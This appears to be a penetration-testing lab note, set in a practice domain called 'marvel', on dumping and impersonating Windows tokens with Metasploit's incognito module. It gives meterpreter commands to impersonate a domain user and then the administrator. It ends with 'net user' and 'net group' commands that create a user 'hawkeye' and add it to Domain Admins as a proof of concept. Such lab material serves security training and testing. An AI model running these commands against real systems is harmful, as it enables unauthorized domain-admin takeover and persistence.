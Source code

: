## **Dumping Tokens Using Metasploit**

First of all make sure you have a `meterpreter` shell on our target system

```powershell
meterpreter > load incognito
meterpreter > list_tokens -u
# impersonate_token domain\\user
meterpreter > impersonate_token marvel\\fcastle
```


#### **Example**


![b5tFh1b.png](https://i.imgur.com/b5tFh1b.png)
![](https://i.imgur.com/b5tFh1b.png)


#### **Revert Msfconsole Shell**

This will revert the `meterpreter` session to its original state

```powershell
meterpreter > revself
```


**Since we are able to dump user fcastle token and impersonate it, let do the same for the local admin, first of all switch user from fcastle to the local admin.**



![](https://i.imgur.com/lPsa2e1.png)

```powershell
meterpreter > list_tokens -u
# impersonate_token domain\\user
meterpreter > impersonate_token marvel\\administrator
```



#### **Example**


![](https://i.imgur.com/hc1UK5y.png)



## **Proof Of Concept**

We can add a proof of concept to our report by creating a new user, called **hawkeye** with password as **Password1@**.

```powershell
meterpreter > shell

# adding our user hawkeye
C:\Windows\system32>net user /add hawkeye Password1@ /domain
C:\Windows\system32>net group "Domain Admins" hawkeye /ADD /DOMAIN
```

#### **Example**


![](https://i.imgur.com/B2iYLvs.png)
